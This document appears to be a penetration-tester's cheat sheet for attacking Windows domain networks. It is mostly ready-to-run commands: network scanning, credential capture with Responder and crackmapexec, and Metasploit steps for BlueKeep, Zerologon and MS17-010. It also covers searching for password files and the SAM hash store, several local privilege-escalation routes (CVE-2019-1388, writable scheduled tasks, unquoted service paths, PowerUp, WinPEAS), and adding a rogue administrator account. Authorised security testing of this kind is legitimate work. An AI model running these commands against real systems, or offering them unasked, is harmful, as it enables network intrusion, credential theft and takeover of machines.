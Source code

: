 Methodologies
ipconfig /all
search for DNS Servers (There is the DC)
ping domain
$ ping domain.com
Port scanning
nmap -p- -sV 192.168.1.0/24
netdiscover
netdiscover -i eth0
netdiscover -r 192.168.1.0/24
crackmapexec
If kali use this command: crackmapexec
sudo git clone https://github.com/byt3bl33d3r/CrackMapExec
crackmapexec smb 192.168.1.0/24
Responder
sudo git clone https://github.com/lgandx/Responder.git
responder.conf → all Off
python Responder.py -I eth0 -w -F -r -d
Crackstation / hashcat if needed
SMB Relay (Impacket)
sudo git clone https://github.com/SecureAuthCorp/impacket
Bluekeep
msfconsole
search bluekeep
use 0
set rhosts 192.168.1.0/24
check
zerologon
Get netbios name from dc
msfconsole
search zerologon
use 0
set rhosts 192.168.1.30 (DC IP)
check
ms17
msfconsole
search ms17
use 3
set rhosts 192.168.1.0/24
check
Search system with default password
Search for port 80 or 443
search in google
{system name} default password
OWA
exploits for owa
nmap NSE scripts




Hunting Password:

SAM file is file which contains all user’s password in LM hash format or NTLM hash format
C:/Windows/System32/config/SAM

If you want to find sensitive file which contains password you can try this command:
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
type file.txt


Local Privilege escalation (PE):

First let check CVE-2019-1388 - “Windows Certificate Dialog Elevation of Privilege Vulnerability”
git clone https://github.com/jas502n/CVE-2019-1388.git
Right click on HHUDP
Click on - show more details
Click on - show information about the publisher’s certificate
Click on -  Issued By
Click “OK” and “No”
After explorer open
Click file
Save as
Write in path C:/Windows/System32/cmd.exe.

Schedule Task Privilege escalation:
To find vulnerable path we can use this command:
schtasks /query /FO CSV /v | convertfrom-csv | where { $_.TaskName -ne "TaskName" } | select "TaskName","Run As User", "Task to Run"  | fl | out-string

Or use jaws tools
Jaws
https://github.com/411Hall/JAWS
powershell -ep bypass
import-module ./jaws-enum.ps1
from cmd with outFilename 
powershell -ExecutionPolicy Bypass -File ./jaws-enum.ps1 -OutputFilename Jaws.txt
search for “Schedule Task” and find what file we can replace.
Example:
we found task called : \Microsoft\Windows\test
and the “Run as user” is administrator or System. We will go to the path in “Task To Run” and check if we have permission to write and change files there.
the file need to be *.bat / *.exe / *.py or something we can run commands to create new users. 

WinPeas
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat
winpeas.bat
PowerUp
https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1 
import-module ./PowerUp.ps1
Invoke-AllChecks
Sherlock - PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.
powershell -ep bypass
import-module ./Sherlock.ps1
Find-AllVulns

Unquoted Service Path:

How to find Unquoted Service Path?
Open powershell and use this command:
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """'

Or use JAWS with this command : 
powershell -ExecutionPolicy Bypass -File ./jaws-enum.ps1 -OutputFilename Jaws.txt
search “Unquoted Service Path” section in file ‘Jaws.txt’
Create new user


Add user Admin:

Create new user → net user /add sahar Aa121212
Add to administrator group → net localgroup administrators sahar /add

System Info:

If you want to check version / domain and other information about the machine, open powershell and write there systeminfo 

After we get the information we need go to https://exploit-db.com and search something like “windows 2016 privi” and mark in V the ”Verified” section.

Open powershell for check when was the last update to KB with : 
wmic qfe
You need to see the InstalledOn section, go to google and search exploits which came out after this date.






